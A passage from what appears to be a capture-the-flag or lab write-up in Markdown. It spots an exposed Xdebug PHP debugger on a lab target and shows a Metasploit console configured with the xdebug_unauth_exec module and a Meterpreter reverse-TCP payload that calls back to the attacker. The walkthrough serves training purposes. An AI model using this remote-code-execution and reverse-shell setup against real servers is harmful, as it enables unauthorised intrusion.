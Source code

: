 ![xdebug.JPG](images/xdebug.JPG)

We can see the ```Xdebug``` - where ```Xdebug``` is a PHP extension that allows debugging PHP pages, remotely by using ```DGBp protocol```. 

Code execution is possible via injections that exist in ```eval``` or ```property_set``` xdebug commands.

We can use the following [metasploit xdebug_unauth_exec](https://www.rapid7.com/db/modules/exploit/unix/http/xdebug_unauth_exec/) to get RCE:
```console
msf6 exploit(unix/http/xdebug_unauth_exec) > options

Module options (exploit/unix/http/xdebug_unauth_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PATH     /vpn/login.php   yes       Path to target webapp
   Proxies                   no        A proxy chain of format type:host:port[,type:host:po
                                       rt][...]
   RHOSTS   172.20.0.10      yes       The target host(s), see https://github.com/rapid7/me
                                       tasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       Callback host for accepting connections
   SRVPORT  9000             yes       Port to listen for the debugger
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun9             yes       The listen address (an interface may be specified)
   LPORT  9001             yes       The listen port

```